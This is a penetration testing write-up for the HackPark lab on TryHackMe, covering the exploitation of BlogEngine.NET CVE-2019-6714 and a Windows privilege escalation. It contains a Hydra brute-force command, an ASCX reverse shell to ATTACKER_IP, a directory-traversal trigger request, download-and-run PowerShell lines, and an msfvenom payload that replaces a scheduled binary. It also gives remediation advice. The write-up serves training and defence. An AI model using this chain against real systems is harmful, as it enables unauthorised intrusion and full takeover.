

# HackPark — Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (DOCX)](./HackPark_Pentest_Report_EN.docx)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | HackPark (TryHackMe) |
| **Target OS** | Windows Server |
| **Difficulty** | Medium |
| **Assessment Type** | Web Application Assessment & Windows Privilege Escalation |
| **Key Vulnerabilities** | Login Brute-Forcing, BlogEngine.NET Arbitrary File Upload / Directory Traversal RCE (CVE-2019-6714), Insecure Scheduled Task / Weak Service Permissions |
| **Initial Access** | BlogEngine.NET RCE via `PostView.ascx` |
| **Privilege Escalation** | Insecure Scheduled Task (`WSUService` / `Message.exe`) -> `NT AUTHORITY\SYSTEM` |

---

## 🎯 Attack Chain



---

## 🔍 Vulnerability Summary

| Vulnerability | Severity | CVE | Affected Service | Impact |
| :--- | :---: | :---: | :---: | :---: |
| **BlogEngine.NET Directory Traversal RCE** | Critical | CVE-2019-6714 | BlogEngine.NET 3.3.7 (Port 80) | Unauthenticated / Authenticated Remote Code Execution |
| **Weak Service / Scheduled Task Permissions** | High | Misconfiguration | `WSUService` (`Message.exe`) | Local Privilege Escalation to SYSTEM |
| **Weak Admin Credentials / No Rate Limiting** | Medium | CWE-307 | `/Account/login.aspx` | Credential Brute-Forcing |

---

## 🛠️ Technical Walkthrough

### Phase 1: Reconnaissance & Port Scanning

```bash
nmap -sV -sC -p- -T4 <TARGET_IP>
```

**Open Ports:**
* `80/tcp` — Microsoft IIS / BlogEngine.NET 3.3.7
* `3389/tcp` — Microsoft Terminal Services (RDP)

### Phase 2: Web Enumeration & Credential Brute-Forcing

Navigating to `http://<TARGET_IP>/` reveals a blog running **BlogEngine.NET 3.3.7**. The administrative login page is located at `/Account/login.aspx`.

Brute-forcing the admin login using Hydra with the `rockyou.txt` wordlist:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> http-post-form "/Account/login.aspx:__VIEWSTATE=...&__EVENTVALIDATION=...&ctl00\$MainContent\$LoginUser\$UserName=^USER^&ctl00\$MainContent\$LoginUser\$Password=^PASS^&ctl00\$MainContent\$LoginUser\$LoginButton=Log+In:Invalid username or password"
```

Successful credential recovery:
* **Username:** `admin`
* **Password:** *(Discovered via dictionary attack)*

### Phase 3: Initial Foothold — CVE-2019-6714 (BlogEngine.NET RCE)

BlogEngine.NET 3.3.7 allows authenticated users to upload arbitrary files via the file manager. The application fails to sanitize directory traversal sequences when rendering `.ascx` control files via the `PostView.ascx` theme mechanism.

1. Prepare a C# ASPX reverse shell payload (`PostView.ascx`):
   ```csharp
   <%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" %>
   <%@ Import Namespace="System.Diagnostics" %>
   <script runat="server">
   protected void Page_Load(object sender, EventArgs e) {
       Process p = new Process();
       p.StartInfo.FileName = "cmd.exe";
       p.StartInfo.Arguments = "/c powershell -c "$c = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);..."";
       p.Start();
   }
   </script>
   ```

2. Upload `PostView.ascx` via the admin document/file upload manager into `App_Data/files/`.
3. Start a local Netcat listener on your machine:
   ```bash
   nc -lvnp 4444
   ```
4. Trigger the payload by requesting the blog post with the theme parameter pointing to the uploaded file:
   ```http
   GET /?theme=../../App_Data/files HTTP/1.1
   Host: <TARGET_IP>
   ```
5. A reverse shell is established with service privileges: `iis apppool\defaultapppool`.

### Phase 4: Windows Privilege Escalation

1. Enumerate the file system and running services using **WinPEAS**:
   ```powershell
   powershell -c "(New-Object Net.WebClient).DownloadFile('http://ATTACKER_IP/winPEASany.exe', 'C:\Temp\winPEAS.exe')"
   C:\Temp\winPEAS.exe
   ```

2. WinPEAS identifies a non-standard third-party scheduled service:
   * **Service:** `SystemScheduler`
   * **Executed Binary:** `C:\Program Files (x86)\SystemScheduler\Message.exe`
   * **Permissions:** Writable by standard users / non-admin service accounts!
   * **Schedule:** Runs every 60 seconds as `NT AUTHORITY\SYSTEM`.

3. Generate a standalone Windows reverse shell payload with `msfvenom`:
   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5555 -f exe -o Message.exe
   ```

4. Transfer `Message.exe` to the target and overwrite the legitimate binary:
   ```powershell
   move "C:\Program Files (x86)\SystemScheduler\Message.exe" "C:\Program Files (x86)\SystemScheduler\Message.exe.bak"
   powershell -c "(New-Object Net.WebClient).DownloadFile('http://ATTACKER_IP/Message.exe', 'C:\Program Files (x86)\SystemScheduler\Message.exe')"
   ```

5. Set up a listener on port `5555`:
   ```bash
   nc -lvnp 5555
   ```
6. When the scheduler triggers the executable, a shell with full `NT AUTHORITY\SYSTEM` privileges is spawned.

---

## 🛡️ Remediation & Defensive Recommendations

1. **Update BlogEngine.NET:** Upgrade to the latest patched version that eliminates CVE-2019-6714 by enforcing strict path validation on theme loaders.
2. **Implement Rate Limiting & Account Lockout:** Protect `/Account/login.aspx` with CAPTCHA, lockout policies, and Multi-Factor Authentication (MFA).
3. **Correct File System ACLs:** Ensure binaries in `C:\Program Files (x86)` have read-and-execute-only permissions for non-admin service accounts.
4. **Endpoint Detection & Response (EDR):** Monitor for anomalous child processes spawned by IIS (`w3wp.exe` spawning `cmd.exe` or `powershell.exe`).

---

## 🗺️ MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name |
| :--- | :--- | :--- |
| **Initial Access** | T1190 | Exploit Public-Facing Application (CVE-2019-6714) |
| **Credential Access** | T1110.001 | Brute Force: Password Guessing |
| **Execution** | T1059.001 | Command and Scripting Interpreter: PowerShell |
| **Privilege Escalation** | T1053.005 | Scheduled Task/Job: Scheduled Task Execution |
| **Defense Evasion** | T1036 | Masquerading / Binary Replacement |
